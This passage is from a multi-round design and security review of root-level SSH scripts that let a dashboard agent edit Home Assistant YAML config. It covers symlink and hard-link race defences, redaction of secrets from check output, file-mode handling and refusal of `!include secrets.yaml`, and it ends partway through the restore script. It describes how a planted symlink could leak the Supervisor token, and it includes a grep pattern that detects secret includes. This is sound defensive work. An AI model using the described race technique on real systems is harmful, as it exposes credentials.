  is unchanged.
* **Z5 (must): the check key must name the HA integration.**
  * F10 reads `ha_check_config_<name of the ha integration>`, but F11 runs
    on an `ha_ssh` row with its own name.
  * Unless that binding is explicit, H5 deletes a key F10 never reads. The
    old `valid` then stays, and a restart passes on an unchecked file, which
    is the case H5 exists for.

  Fix: the `ha_ssh` row has an operator-set `config_json.ha_integration`
  (validated as an existing integration of kind `ha`, never an argument).
  F11 deletes and writes only that key, and a write is refused if it is
  unset.

  Test: after a write, the F10 restart is refused until a new check passes.
* **Z6 (should): checks in the scripts as well.**
  * Every script refuses a `secrets.yaml` basename (exit 19) and requires
    `*.yaml|*.yml`.
  * The dashboard refuses `secrets.yaml` at **any** depth, because HA also
    looks for a `secrets.yaml` next to an included file.
  * Every script starts with `PATH=/usr/bin:/bin:/usr/sbin:/sbin`.
  * The command is sent as `/bin/sh -c`, every part `shlex.quote`d, because
    root's login shell on the add-on runs the command string first.
* **Z7 (should): add `restrict` to the key line.** Use
  `from="<dashboard address>",restrict`, or, if the add-on rejects
  `restrict`, `no-port-forwarding,no-agent-forwarding,no-X11-forwarding,no-pty`.
  Without it, a port forward from the add-on reaches the Supervisor's
  network. The setup doc records which form the add-on accepts.
* **Z8 (should):**
  * `root_checked` and the pin's "confirmed" flag are cleared whenever the
    host, port, user or key changes;
  * `ssh_user` matches `^[a-z_][a-z0-9_-]{0,31}$`;
  * the host is an IP or a plain hostname that does not start with `-`.
* **Z9 (should):** a write counts as successful only on exit 0 *and* a last
  line `ok <64 hex>` that equals the hash of the content sent. Don't scan the
  output for `ok`: the check output comes before that line, and it can
  contain text the file put there.

Gating, and the rest:
* **Gating:**
  * `ha_config_write` and `ha_config_restore` are `always_gate` and stay out
    of `PLAN_COVERABLE_TOOLS`.
  * With F10's K1, `ha_config_write` is in the dry-run set, and its dry run
    opens only a read.
  * `ha_config_restore` is not in that set.
  * Test: a restore with `dry_run` set still queues a card.
* **Open question 2:** an explicit pin at setup is the default. TOFU is
  allowed, but a TOFU pin stays **unconfirmed** until the operator confirms
  the fingerprint on the card, and a write or restore needs a confirmed pin.
* **Open question 4:** the prune template is in scope if it meets four
  conditions:
  * the basename is a positional argument, never put into the script text;
  * `find "$dir" -maxdepth 1 -type f -name …` is used (a link is skipped);
  * it runs only after exit 0;
  * it never touches the backup this write just made.

After Z1–Z5, I review only those sections. Z6–Z9 can go to the feature
reviewer.

**Round 7 (feature reviewer, 2026-11-10, `f6cdbbd`): two fixes to Z2 before the
security reviewer reads it.** Z1 (one read script, no symlink or hard link),
Z3, Z4 (noclobber, `mv` only) and Z5 (bound HA integration) read right. The
`index()` loop always terminates (each replacement shortens the match from at
least 4 characters to 3).

* **AB1 (must): `redact` reads the wrong `secrets.yaml` for packages.** It
  reads `"$dir/secrets.yaml"`, where `$dir` is the edited file's directory.
  HA resolves `!secret` from the file's own directory **up to the config
  root**, so a file in `packages/net/` usually takes its values from
  `/homeassistant/secrets.yaml`. There, `redact` finds no file, returns 0 and
  prints the check output **unredacted**. Read every `secrets.yaml` from
  `$dir` up to `/homeassistant` (each with `-f` and `! -L`), and always
  include `/homeassistant/secrets.yaml`. Test: a file under
  `packages/net/` whose secret is defined only at the root is still redacted.
* **AB2 (should): multi-line values are not covered.** A block scalar
  (`key: |` or `key: >`, such as certificates or keys) leaves `v` = `|`, so
  the indented lines that follow are never collected. Collect them (strip the
  indent, redact each line of length ≥ 4), or state the limit in the setup
  doc. Values shorter than 4 characters (PINs) are also not redacted. State
  that limit in the doc too.

Z6–Z9, Q2 and Q4 will be checked in the next round, together with AB1/AB2.

**Z6–Z9, Q2 and Q4 (feature reviewer, 2026-11-10, `f6cdbbd`): approved, plus
two fixes in the final write script (AC1, AC2).** Z6 (fixed `PATH`, `*.yaml`
only, `secrets.yaml` refused in the script and at any depth on the
dashboard, `/bin/sh -c` with quoted parts), Z7 (`from=…,restrict`, with the
spelled-out fallback), Z8 (clearing `root_checked` and the pin confirmation
on any connection change; user and host patterns), Z9 (exit 0 **and** the last
line `ok <sha256 of the sent content>`; no scanning) and the gating (`write`
in `DRY_RUN_HANDLERS` with a read-only dry run, `restore` not) are right. So
are Q2 (writes need a confirmed pin) and Q4.

* **AC1 (must): `redact` never reads its input.** Inside the
  double-quoted awk program the last word is `"\$1"`, so the inner shell
  hands awk the literal file name `$1`. awk then fails to open it and the
  check output is lost (not leaked, but gone). Only the awk fields (`$0`)
  need escaping; the file argument must be the shell's `"$1"`. The W5 BusyBox
  test should assert that a non-secret line of the stub `ha` output survives
  `redact`.
* **AC2 (must): the check output file is a Z4 hole.** `> "$dir/.eshu-check.$$"`
  is a predictable name inside the config directory, created without
  `set -C`, so a link planted there is written through as root. Do not use a
  file. Capture the output in a variable and redact it from stdin:
  `out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) && rc=0 || rc=$?`,
  then `printf '%s\n' "$out" | redact` (with `redact` reading stdin). The
  same applies in `RESTORE_SCRIPT` and `ha_config_check`.
* **Setup-doc note:** the operator's own key added for the 2026-11-10 checks
  has no `from=`/`restrict`. The doc should say to remove personal keys, or
  restrict them, once Eshu's key is in place.

After AB1, AB2, AC1 and AC2, the design goes to the security reviewer for
Z1–Z5.

**AC1/AC2 (feature reviewer, 2026-11-10, `29f7296`): fixed; one line before the
security reviewer (AE1).** `redact` reads stdin, keeps the shell's arguments
unescaped, and no check file is created in the config directory.

* **AE1 (must): `out=${out:0:65536}` is bash-only, and it cuts before
  redacting.** The scripts run under `/bin/sh`: BusyBox `ash` on the add-on,
  `dash` for the GNU half of the W5 tests, which rejects `${var:off:len}`
  ("Bad substitution", and under `set -e` the script dies after the check,
  before the rollback). Cutting first can also split a secret at the boundary
  and leave its first part unredacted. Use
  `printf '%s\n' "$out" | redact | head -c 65536` (portable, and the cap
  comes **after** redaction). Test: a secret that straddles byte 65 536 leaves
  no prefix of itself in the output.

With AE1 folded, F11 goes to the security reviewer for Z1–Z5 (no further round
from me).

**Security review — Round 7, Z1–Z5 (2026-11-10, `471f58f`): Z3 and Z5
approved; Z1, Z2 and Z4 need four more changes (AH1–AH4).** The direction is
right on all five. What is left is the same class of bug at three more
points: a name is checked, and the file is opened again later by name.

What is right:
* **Z1:**
  * one script per read;
  * hard links refused;
  * the dashboard hashes the bytes it received.
* **Z2:**
  * redaction runs on the add-on, values never go on a command line, and
    `index()` is used, not a regex;
  * the cap comes after redaction;
  * no check file is created in the config tree.
* **Z3:**
  * new `!secret` names are listed on the banner;
  * `!env_var` is refused;
  * the four admin-power triggers show the red line.
* **Z4:** new files are created with noclobber, and the target changes only
  by `mv`.
* **Z5:** the binding is operator-set, never an argument, and a write is
  refused while it is unset.

Changes:

* **AH1 (must): open each file once, check the open file, and read only
  from that descriptor.**
  * **Where the race is:** in the read, write and restore scripts, every
    check is on a *name*, and the later `cat "$real"`, `sha256sum "$real"`,
    `cat "$real" > "$backup"` and `cat "$backup" > "$rb"` open that name
    again.
  * **The serious case is the rollback.** Something that can write into the
    config tree can do two things during an approved write:
    1. replace `$backup` with a symlink to the token file;
    2. break the config, so the check fails.

    The rollback then copies the token into the `.yaml`, which the agent
    reads back with the ungated read tool. One script per call makes the
    window smaller, but it does not close it.

  **Fix:** open first, then check the open file:
  ```sh
  exec 3< "$real" || exit 12
  fd=/proc/$$/fd/3
  [ "$(readlink "$fd")" = "$real" ] || exit 13     # the file actually opened
  [ -f "$fd" ] && [ "$(stat -L -c %h "$fd")" = 1 ] || exit 21
  ```
  * After that, every read uses `"$fd"` (`sha256sum "$fd"`,
    `cat "$fd" > "$backup"`, `cat "$fd"` in the read script). A path under
    `/proc/$$/fd` always reaches the inode that was opened.
  * The backup gets the same treatment right after it is created (`exec 4<
    "$backup"`, the same three checks), and the rollback reads from fd 4,
    never from the name.
  * The restore opens `$backup` this way before X1's check.
  * Rollbacks that are `mv -f "$tmp" "$real"` are already safe: if `$tmp`
    was swapped for a link, `$real` becomes that link, and every read
    refuses a link.
  * A FIFO planted at the name would make the open block. The dashboard
    timeout bounds that, and the setup doc can mention it.

  Test, in both userlands: a stub `ha` that swaps `$backup` for a symlink
  to a sentinel and then fails the check. `$real` ends with the old content
  (or the script exits 1), and the sentinel appears in no file and no
  response. A swap of `$real` between the check and the read is refused
  in the read script.
* **AH2 (must): redaction must see every value HA can print.**
  * `ha core check` validates the **whole** configuration, not just the
    edited file. A package under `packages/other/` whose own `secrets.yaml`
    is not on the edited file's upward path can still have its value quoted
    in the output. `ha_config_check` has no "edited file" at all.

    **Fix:** collect every `secrets.yaml` in the tree:
    ```sh
    find /homeassistant -xdev -name secrets.yaml -type f
    ```
    `-type f` skips links; apply AH1's link-count check to each file. The
    union rule stays.
  * **Parsing:**
    * `key: value  # comment` resolves to `value`, but today the whole rest
      of the line is collected, so the real value never matches. For an
      unquoted value, strip ` #…`.
    * For a double-quoted value, also add the form with `\"` and `\\`
      decoded. For a single-quoted value, also add the form with `''` decoded.
    * Redacting both forms is cheap, and over-redacting is fine.

  Tests:
  * a value with a trailing comment is redacted;
  * a value from a `secrets.yaml` beside another package is redacted in a
    write's check output and in `ha_config_check`.
* **AH3 (must): the rollback file keeps the mode.**
  * `rb` (the write's rollback, and the restore's `rb`) is created under
    the add-on's umask and never `chmod`ed. A `0640` file comes back
    `0644` after a failed check, which widens access to a file that may hold
    credentials.
  * Also, the `chmod`/`chown` of `$backup` and `$tmp` go *by name*, so a link
    swapped in after creation is followed.

  **Fix:** create every new file with its mode already right, by setting
  `umask` from the source file's mode just before the noclobber `cat`:
  ```sh
  umask "$(printf '%o' $(( 0777 & ~0$(stat -c %a "$fd") )))"
  ```
  This drops the `chmod`, and `chown -h` (BusyBox has `-h`) never follows a
  link.

  Test: a `0640` file is still `0640` after a failed-check rollback and
  after a restore.
* **AH4 (must, small): refuse `!include` of `secrets.yaml`.**
  * `foo: !include secrets.yaml` (or `../secrets.yaml`) loads the whole
    credential file as ordinary config. That is more than Z3's new-`!secret`
    banner covers, and it skips the banner completely.
  * HA's `!include_dir_*` loaders skip `secrets.yaml`, so only the
    single-file forms need refusing.

  **Fix:** refuse (`config_secret_include_refused`) any `!include` whose
  target basename is `secrets.yaml`.

  Test: both spellings are refused.

Nits (the feature reviewer can check these):
* AC2's paragraph still says the cap is applied "**before** redaction". AE1
  made it after. Fix the text so the design of record doesn't contradict
  itself.
* `head -c 65536` can cut mid-line, and the next `printf "ok %s\n"` then
  joins the cut line. Z9's last-line check fails, so a good write reports
  `config_state_unknown`. That is safe but wrong. Print a `\n` before the
  `ok` line, and have Z9 accept a blank line before it.
* Z5: validate the binding again at write time (it exists, is of kind `ha`,
  and is enabled), not only when it is saved. A renamed or deleted HA
  integration then refuses, rather than clearing a key nobody reads.

After AH1–AH4, I review only the changed parts of Z1, Z2 and Z4 and the
final scripts. That round is below (round 8), so F11 goes back to the
security reviewer after it.

### Round 8 — AH1–AH4 and the three nits (design round)

**Design only; no code on this branch.** AH1–AH4 are folded below, the three
nits are fixed, and the five scripts are restated in full at the end of the
round because AH1 changes every read in all of them. Where an earlier round
and this one disagree, **this round wins**.

Every script was run under **BusyBox `sh`** and under **`dash`** (the W5
matrix) with a BusyBox-only `PATH`, a substituted temp root, a stub `ha` and
a substituted token file; both userlands pass the same 80 cases, and each
case that matters fails on the round-7 text. This container has BusyBox
1.36.1; V1 reported 1.37.0 on the add-on and nothing below uses an applet
that differs between them.

#### AH1 — open once, check the open file, read only through the descriptor

The pattern, once per file, from the one `exec` that opens it:

```sh
exec 3< "$real"                                    # one open
fd3=/proc/$$/fd/3                                  # the descriptor names it
[ "$(readlink "$fd3")" = "$real" ] || exit 13      # this is the file opened
[ -f "$fd3" ] || exit 12                           # a regular file
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21       # and not a hard link
```

After that every read goes through `"$fd3"`. `sha256sum "$fd3"`, `cat
"$fd3"` and `cat "$fd3" >&4` each open `/proc/$$/fd/3`, which the kernel
resolves to the inode fd 3 holds: a name in the config tree can be swapped
for a link, that path cannot be pointed at another inode.

**What each descriptor holds.**

| script | fd 3 | fd 4 | fd 5 | fd 6 | fd 9 |
|---|---|---|---|---|---|
| write | the target: the hash before the write, and the backup copy | the backup: the rollback source | the new content: the `!include` scan and the `ok` hash | the rollback file | one `secrets.yaml` at a time (`redact`) |
| restore | the target: the pre-restore copy | the backup: the restore source, hashed before and after | the pre-restore copy: the rollback source | the restored file, which becomes the target | one `secrets.yaml` (`redact`) |
| read | the target | — | — | — | — |
| keys | the target | — | — | — | — |

**No checked name is opened a second time, because the descriptor is made by
the open.**

* **The backup.** `exec 4> "$backup"` creates the file under `set -C` **and**
  holds it, in one step; the bytes are `cat "$fd3" >&4`. There is no `cp`
  and no second open of the name. The `[ ! -e ] && [ ! -L ]` check before it
  stays as the early refusal, but it is no longer what protects the write.
* **The new content.** `exec 5> "$tmp"`, content `cat >&5`. The `ok` hash is
  `sha256sum "$fd5"` taken **after** `mv -f "$tmp" "$real"`, when `readlink
  "$fd5"` is `"$real"`; the number reported therefore describes the inode
  that is at the target now, not whatever the name points at. A `$tmp`
  replaced between our write and the `mv` makes the `ok` hash differ from the
  SHA-256 the dashboard sent, so the call reports `config_state_unknown`
  instead of a clean success.
* **The write's rollback.** `exec 6> "$rb"`, bytes `cat "$fd4" >&6`, then
  `mv -f "$rb" "$real"`. The backup is read from fd 4, so AH1's serious case
  — the backup's *name* replaced by a symlink to the token file while the
  check fails — copies the real backup bytes; the planted link is never
  read, and the sentinel never reaches the `.yaml`.
* **The restore re-reads its own result.** The restored file is fd 6, built
  from fd 4; after the check, `sha256sum /proc/$$/fd/6` must equal the hash
  of fd 4 taken before it, so a restore that somehow moved different bytes
  does not print `ok`.
* **The restore's rollback** is `mv -f "$tmp" "$real"` followed by
  `[ "$(readlink "$fd5")" = "$real" ]`: if `$tmp` was renamed over, the
  descriptor shows it and the restore reports `config_state_unknown`
  (exit 1) rather than claiming the pre-restore content is back.

**`redact` is the one place that uses `/proc/self/fd/9`, not `/proc/$$/fd/9`.**
It is called in a pipeline (`printf … | redact | head -c 65536`), so it runs
in a **subshell**, and POSIX `$$` still names the parent shell. The document
was opened by the subshell, so `/proc/$$/fd/9` names an entry that does not
exist and every candidate would be skipped — redaction that silently does
nothing. `/proc/self/fd/9` is resolved by the process that opens it
(`readlink`, `stat`, `awk`, `sha256sum`), all of which inherited the
descriptor, so it always names the right inode. The matrix caught this; it
is not visible by reading the script.

**No `|| exit N` after an `exec`.** A redirection error on `exec` ends a
non-interactive shell (POSIX; dash, ash and bash all do it), so a guard after
it would never run and the shell's own status is 1. The scripts carry no such
guard, and the exit-code table says 1 means "the file could not be opened
after it was checked" (or a failed rollback), which the dashboard maps to
`config_state_unknown`. The one place a *candidate* file could hit this is
`redact`, so each candidate is gated with `[ -f "$f" ]` before the open: that
refuses a FIFO (whose open would block) and a file that vanished since the
`find`, and a `secrets.yaml` deleted in that window fails the call closed
instead of printing unredacted output.

Tests, both userlands. The round-7 text cannot pass the first, third and
fourth: its rollback copies the backup by name, and every read opens the
target by name after the checks have passed. (Confirmed against the round-7
read script, which prints the sentinel and exits 0 when the swap is inserted
just before its `cat`.)

* the backup's name replaced by a symlink to a sentinel **and then** the
  check fails: the target ends with the old content, and the sentinel
  appears in no file and in no output;
* the target's name replaced by a symlink to the sentinel and the check
  fails: the target is a regular file with the old content and the sentinel
  is untouched (this re-tests Z4 at the same time);
* the target swapped for a symlink **between `realpath` and the open** (one
  line inserted into the test's copy of the script, the way W5 substitutes
  the temp root): exit 13 and nothing printed;
* the backup swapped for a symlink **between the `-L` check and the open**
  in the restore: exit 19, nothing read and nothing written;
* a hard link on the target: 21; a symlink planted at the backup name or the
  temp name before the run: 19.

#### AH2 — redaction sees every value HA can print

`ha core check` validates the **whole** configuration, so the values it can
quote are not only the ones the edited file can resolve. Two changes:

* **Every `secrets.yaml` in the tree.** `redact` collects `find
  /homeassistant -xdev -name secrets.yaml -type f` and opens each candidate
  through AH1's checks (`-f`, `readlink`, link count 1) before awk reads it
  through the descriptor. AB1's upward walk is a strict subset of this —
  every parent of the edited file is under `/homeassistant`, where the find
  starts — so it is replaced, not kept alongside; AB1's own test (a file in
  `packages/net/` whose only `secrets.yaml` is the root one) still passes.
  AB1 could not protect `ha_config_check` at all: it has no edited file, and
  before this change it redacted nothing. `-xdev` is the reviewer's own form;
  a `secrets.yaml` on another mount under the tree is not collected, which
  the setup doc states. Candidates are opened one at a time on fd 9, so many
  files cost time, not descriptor slots.
* **Parsing.** For each `key: value` line:
  * a **double-quoted** value adds the form as written **and** the form with
    `\"` and `\\` decoded;
  * a **single-quoted** value adds the form as written **and** the form with
    `''` decoded;
  * an **unquoted** value adds the value as written **and** the value with a
    trailing ` #…` removed, because HA resolves `key: value  # comment` to
    `value` and the round-7 collector kept the comment, so the real value
    never matched;
  * block scalars (`|`, `>`) are unchanged from AB2: line by line, indent
    stripped, length ≥ 4. The 4-character floor and the line-by-line limit
    stay documented in the setup doc.

  Over-redaction is acceptable; a value that is never added is the bug.

A trap the matrix found: the single-quote decode cannot be written
`gsub(/''/, "\047", b)`. The awk program sits inside the shell's single
quotes, so `''` **closes and reopens** the string and the regex becomes
empty — `gsub(//, "'")` inserts a quote between every character, which looks
like redaction working while the real value is never added. The shipped form
is `gsub(/\047\047/, "\047", b)`.

Tests: a value with a trailing comment is redacted (and so is the bare
value); the decoded form of a double-quoted and of a single-quoted value is
redacted; a value defined only in `packages/other/secrets.yaml` is redacted
in a write's check output **and** in `ha_config_check`; a 3-character value
is not; an ordinary line survives unchanged (AC1).

#### AH3 — the mode is set when the file is created; `chown -h`; no `chmod`

Every new file takes its mode from the file it is a copy of, through `umask`
set just before the noclobber open. There is no `chmod` at all, and no window
in which a new file is more permissive than its source:

```sh
umask_for() {
  m=$(stat -L -c %a "$1")     # the source's permission bits
  m=${m#"${m%???}"}           # last three digits: drop setuid/setgid/sticky
  umask "$(printf "%o" $(( 0777 & ~0$m )))"
}
```

| new file | mode from | why |
|---|---|---|
| write `$backup` | fd 3, the target | it is a copy of it |
| write `$tmp` | fd 3, the target | it becomes the target |
| write `$rb` | fd 4, the backup | it becomes the target again |
| restore `$tmp` | fd 3, the target | it is the target's content if the restore fails |
| restore `$rb`, the restored file | fd 4, the backup | it becomes the target; the backup is the state being restored |

The last three digits matter because `stat -c %a` prints four for a file with
setuid (`4755`); `0$m` would then be octal `04755` and produce a nonsense
umask. The created file is `0666 & ~umask`, so a source mode with an execute
bit comes back without it (`0755` → `0644`): that narrows, never widens, and
config files are not executable. Ownership is copied with `chown -h
"$(stat -L -c %u:%g "$fd3")" "$new" 2>/dev/null || true` — `-h` changes a
link rather than its target if one was swapped in after the create, and a
non-root user's failure is ignored (the add-on's user is root, which W8
checks with `id -u`).

Tests: a `0640` file is still `0640` after a failed-check rollback and after
a restore; a `0600` file stays `0600`; the backup and the restored file carry
the source's mode.

#### AH4 — `!include` of a secrets file is refused

`foo: !include secrets.yaml` loads the whole credential file as ordinary
config: any key the API returns then exposes every value in it, and Z3's
banner never sees it. Two places refuse it:

* **dashboard preflight, before approval.** The proposed content is scanned
  line by line for `!include` followed by a target whose basename is
  `secrets.yaml` — bare, `../`, absolute, quoted, in any position on the
  line. The call is refused with `config_secret_include_refused` and no card
  is created. It sits beside `!env_var`'s refusal in the same preflight, and
  a target that merely *contains* the name is refused too (over-refusal).
* **the script.** After the content is in fd 5 and before the `mv`,
  `grep -qE "!include[[:space:]]+.*secrets\.yaml" "$fd5"` refuses with exit
  22 and leaves the target untouched: `/proc/$$/fd/5` is the file just
  written, so the scan reads the bytes that would be installed. This is belt
  and braces against a dashboard bug; the preflight is the gate.

`!include_dir_*` needs nothing: HA's directory loaders skip `secrets.yaml` by
name, so they cannot return its values. A file that *already* contains such
an include is not repaired by refusing a write — the write is refused, the
tree is left as it is, and AH2 redacts the check output either way.

Tests: both spellings refused (a dashboard test on the preflight, and the
script → 22 with the target unchanged and neither the temp nor the backup
left behind); an `!include` of an ordinary file is still accepted.

#### The three nits

* **AC2's paragraph** now says the cap is applied **after** redaction. It was
  a one-line contradiction left by AE1; the round-7 text is corrected in
  place, because a design of record that argues with itself is worse than a
  stale one.
* **A cut cannot join the status line.** Both scripts print `printf "\n"`
  after the capped check output and before the status line, so a cut in the
  middle of a line cannot put the status on the end of that line. Z9 takes
  the **last line** of the response and allows a blank line before it; the
  status is never searched for inside the check output. With a secret placed
  so that it straddles byte 65 536, the returned output holds no prefix of it
  and the last line is still `ok <hash>` (tested in both userlands).
* **The binding is re-checked at write time.** `ha_config_write` and
  `ha_config_restore` resolve `config_json.ha_integration` again immediately
  before connecting: it must still name an existing, enabled integration of
  kind `ha` (`config_ha_integration_unset` / `config_ha_integration_invalid`,
  as Z5 defines them), and the meta key H5 clears and the post-write check
  sets is computed from the newly resolved row. A renamed or deleted HA
  integration now refuses instead of clearing a key nothing reads. `list`
  and `read` still do not need the binding.

#### Exit codes, as shipped

| code | meaning |
|---|---|
| 1 | the shell could not open a file it had just checked, or a rollback failed — the dashboard maps 1 to `config_state_unknown` (U3) |
| 10, 11 | the directory is not the HA config tree |
| 12 | the file is missing |
| 13 | a symlink, an escape from the tree, or the opened file is not the path that was resolved |
| 14 | the hash changed since the dashboard read the file |
| 15 | the backup could not be written (write) / the pre-restore copy could not be written (restore) |
| 16 | the new content or the restored file could not be written |
| 17 | the `mv` into place failed |
| 18 | `ha core check` failed and the original content was put back |
| 19 | a refused argument or file name |
| 20 | the token file is missing |
| 21 | a hard link, or another link on a file we just created |
| 22 | the content is refused — `!include` of a secrets file |

`ok` is printed only on exit 0; its hash is the SHA-256 of the bytes now at
the target (write) or of the restored file (restore), and the dashboard
compares it with what it sent (write) or with the backup it asked to restore.

#### The scripts, final

Each script is the **body** of one `sh -c` call. The dashboard sends it as
`ssh … /bin/sh -c <body> _ <arguments>` with the body quoted by
`shlex.quote`, so the awk programs keep their single quotes and the shell
never expands anything in the body. `_` is `$0`; the arguments are `$1`, `$2`,
…, always absolute, always built by the dashboard from a fixed template.

`/homeassistant` is the config root (W4: `/config` is a symlink to it on the
add-on). The token file and `timeout 100` are constants (W7, U1).

**WRITE_SCRIPT**

```bash
# WRITE_SCRIPT — the body of the single sh -c. BusyBox- and GNU-compatible.
# Arguments: $1 path, $2 expect (sha256 hex), $3 backup, $4 tmp.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
umask_for() {
  m=$(stat -L -c %a "$1")
  m=${m#"${m%???}"}
  umask "$(printf "%o" $(( 0777 & ~0$m )))"
}
path=$1; expect=$2; backup=$3; tmp=$4

case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in "$real".eshu-tmp-*) ;; *) exit 19 ;; esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ ! -e "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21

[ "$(sha256sum "$fd3" | cut -d" " -f1)" = "$expect" ] || exit 14

umask_for "$fd3"
set -C
exec 4> "$backup"
set +C
cat "$fd3" >&4 || { rm -f "$backup"; exit 15; }
chown -h "$(stat -L -c %u:%g "$fd3")" "$backup" 2>/dev/null || true
fd4=/proc/$me/fd/4
[ "$(readlink "$fd4")" = "$backup" ] || exit 15
[ -f "$fd4" ] || exit 15
[ "$(stat -L -c %h "$fd4")" = 1 ] || exit 21

set -C
exec 5> "$tmp"
set +C
cat >&5 || { exec 5>&-; rm -f "$tmp"; exit 16; }
chown -h "$(stat -L -c %u:%g "$fd3")" "$tmp" 2>/dev/null || true
fd5=/proc/$me/fd/5
[ "$(readlink "$fd5")" = "$tmp" ] || { exec 5>&-; rm -f "$tmp"; exit 16; }
[ -f "$fd5" ] || exit 16
[ "$(stat -L -c %h "$fd5")" = 1 ] || exit 21
grep -qE "!include[[:space:]]+.*secrets\.yaml" "$fd5" \
  && { exec 5>&-; rm -f "$tmp" "$backup"; exit 22; }

mv -f "$tmp" "$real" || exit 17
[ "$(readlink "$fd5")" = "$real" ] || exit 17

redact() {
  set -f
  in=$(cat)
  list=$(find /homeassistant -xdev -name secrets.yaml -type f 2>/dev/null) || list=""
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    [ -f "$f" ] || continue
    exec 9< "$f"
    fd9=/proc/self/fd/9
    if [ "$(readlink "$fd9")" != "$f" ] || [ ! -f "$fd9" ] || \
       [ "$(stat -L -c %h "$fd9")" != 1 ]; then
      exec 9<&-
      continue
    fi
    in=$(printf "%s\n" "$in" | awk -v fd="$fd9" '
      function add1(v) { sub(/[ \t]+$/, "", v); if (length(v) >= 4) s[++n] = v }
      function add(v,   q, b) {
        sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
        if (v == "") return
        q = substr(v, 1, 1)
        if (q == "\"" || q == "\047") {
          add1(v)
          b = substr(v, 2)
          sub(/["\047][ \t]*$/, "", b)
          if (q == "\"") { gsub(/\\"/, "\"", b); gsub(/\\\\/, "\\", b) }
          else gsub(/\047\047/, "\047", b)
          add1(b)
          return
        }
        add1(v)
        p = index(v, " #")
        if (p > 0) add1(substr(v, 1, p - 1))
      }
      BEGIN {
        inblock = 0
        while ((getline l < fd) > 0) {
          if (l ~ /^[ \t]*[A-Za-z0-9_]+:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
          if (inblock) {
            if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
            inblock = 0
          }
          if (match(l, /^[A-Za-z0-9_]+:[ \t]*/)) add(substr(l, RLENGTH + 1))
        }
        close(fd)
      }
      { for (i = 1; i <= n; i++)
          while ((p = index($0, s[i])) > 0)
            $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
        print }')
    exec 9<&-
  done
  IFS=$oldifs
  printf "%s\n" "$in"
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
if [ "$crc" -ne 0 ]; then
  rb="$real.eshu-tmp-rb-$me"
  [ ! -e "$rb" ] && [ ! -L "$rb" ] || exit 1
  umask_for "$fd4"
  set -C
  exec 6> "$rb"
  set +C
  cat "$fd4" >&6 || { rm -f "$rb"; exit 1; }
  chown -h "$(stat -L -c %u:%g "$fd4")" "$rb" 2>/dev/null || true
  mv -f "$rb" "$real" || exit 1
  exit 18
fi
printf "\n"
printf "ok %s\n" "$(sha256sum "$fd5" | cut -d" " -f1)"
```

**RESTORE_SCRIPT**

```bash
# RESTORE_SCRIPT — the body of the single sh -c.
# Arguments: $1 path, $2 backup, $3 tmp (the pre-restore copy's name).
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
umask_for() {
  m=$(stat -L -c %a "$1")
  m=${m#"${m%???}"}
  umask "$(printf "%o" $(( 0777 & ~0$m )))"
}
path=$1; backup=$2; tmp=$3

case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in "$real".eshu-tmp-*) ;; *) exit 19 ;; esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ -f "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
